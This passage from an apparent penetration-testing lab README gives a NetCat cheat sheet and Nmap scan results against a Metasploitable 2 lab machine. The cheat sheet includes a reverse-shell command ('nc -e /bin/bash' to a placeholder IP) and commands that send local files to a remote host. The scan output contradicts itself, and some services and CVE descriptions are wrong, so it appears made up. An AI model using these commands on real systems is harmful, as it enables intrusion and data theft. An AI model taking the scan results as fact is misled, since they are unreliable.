     Nmap done: 256 IP addresses (5 hosts up) scanned in 1.26 seconds
    ```
#### NetCat
- ***nc -zv [IP address] 1-1000*** - To perform a port scan on the specified IP address from port 1-1000
- ***nc -w 3 [IP address] 5555 < localfile.txt*** - Send the contents of ***localfile.txt*** to a remote machine with the specified IP address using port 5555. The -w 3 option sets a timeout of 3 seconds for the connection attempt.
- ***echo "Hello, World!" | nc [IP address] 1234*** - Sends "Hello, World!" to the specified IP in port 1234.
- ***nc -e /bin/bash [IP address] 1234*** - This executes the bash shell and sends the output to the local machine listening on port 1234
- ***nc [IP address] 1234 < file_to_send.txt*** - The command sends a ***file_to_send.txt*** to a specific IP on port 1234

## 🛡️ Metasploitable 2 Results & Recommendations
### NMAP
**1. nmap -p 1-1000 192.168.56.103**
  ```
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-27 12:00 EST
    Nmap scan report for 192.168.56.103
    Host is up (0.00025s latency).
    Not shown: 998 filtered ports
    PORT           STATE       SERVICE
    22/tcp         open        ssh
    80/tcp         open        http
    111/tcp        open        rpcbind
    139/tcp        open        netbios-ssn
    445/tcp        open        microsoft-ds
  ```

**2. nmap -O 192.168.56.103**
  ```
    Starting Nmap 7.80 ( https://nmap.org ) at 2023-02-27 12:00 EST
    Nmap scan report for 192.168.56.103
    Host is up (0.00032s latency).
    Not shown: 999 closed ports
    PORT          STATE         SERVICE
    22/tcp        open          ssh
    Device type: general purpose
    Running: Linux 2.6.X|3.X
    OS CPE: cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:3
    OS details: Linux 2.6.32 or 3.0 (likely embedded)
    Network Distance: 1 hop
    OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 2.04 seconds
  ```

**3. nmap -sV --script vuln 192.168.56.103**
  ```
    Starting Nmap 7.91 ( https://nmap.org ) at 2023-03-01 10:30 EST
    Nmap scan report for 192.168.56.103
    Host is up (0.00044s latency).
    PORT         STATE       SERVICE     VERSION
    22/tcp       open        ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
     vuln: 
       cve_2016_8858: 
    _    A remote code execution vulnerability exists in OpenSSH
    111/tcp  open  rpcbind 2-4 (RPC #100000)
    _ vuln: 
       CVE-2017-16995: 
         The NFSv2/NFSv3 server in the nfsd subsystem in the Linux kernel through 4.15. 
         allows remote attackers to cause a denial of service (system crash) 
  ```